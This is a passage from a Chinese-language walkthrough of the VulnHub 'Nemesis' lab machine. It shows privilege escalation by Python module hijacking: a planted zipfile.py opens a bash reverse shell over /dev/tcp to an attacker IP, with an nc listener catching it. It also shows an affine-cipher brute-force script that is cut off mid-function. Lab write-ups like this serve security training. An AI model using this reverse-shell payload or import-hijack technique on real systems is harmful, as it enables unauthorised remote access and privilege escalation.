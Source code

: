 通过`python`在`kali`中开启`HTTP`服务，并在靶机使用`wget`下载`pspy64`

执行后观察发现这个脚本会自动执行的，应该是任务

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\19.jpg)

查看脚本文件以及导入的模块，都没有修改权限，不过可以在同级目录下，对模块进行污染，这个词可能不是很准确，看下面的解释

>Python 首先会在当前脚本所在的目录中查找模块。如果当前目录下存在名为 `zipfile.py` 的文件，Python 会优先导入这个自定义模块

在同级目录编辑文件`zipfile.py`，并写入下面内容

```python
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'")
```

然后在`kali`中使用`nc`开启监听9999端口，等待一分钟，即可连接

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\20.jpg)

查看当前用户目录下的`flag2`

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\21.jpg)

## 提权至root

再查看`root.txt`，这里提示，经过加密的

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\22.jpg)

还提示在原始密码中，有`FUN`，查看`encrypt.py`，发现其中的加密方式为  仿射加密

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\23.jpg)

使用`ai`帮助生成一个解密代码，因为原始密码中有`FUN`所以，以这个进行筛选暴力破解出 的密码

```python
def egcd(a, b):
    x, y, u, v = 0, 1, 1, 0
    while a!= 0:
        q, r = b // a, b % a
        m, n = x - u * q, y - v * q
        b, a, x, y, u, v = a, r, u, v, m, n
    gcd = b
    return gcd, x, y

def modinv(a, m):
    gcd, x, y = egcd(a, m)
    if gcd!= 1:
        return None
    else:
        return x % m

def affine_encrypt(text, key):
    return ''.join([chr(((key[0] * (ord(t) - ord('A')) + key[1]) % 26) + ord('A')) for t in text.upper().replace(' ', '')])

def affine_decrypt(cipher, key):
    inv_key = modinv(key[0], 26)
    if inv_key is None:
        return None
    return ''.join([chr(((inv_key * (ord(c) - ord('A') - key[1])) % 26) + ord('A')) for c in cipher])

def brute_force_decrypt(cipher):
    for key0 in range(1, 26):
        if egcd(key0, 26)[0] == 1:
```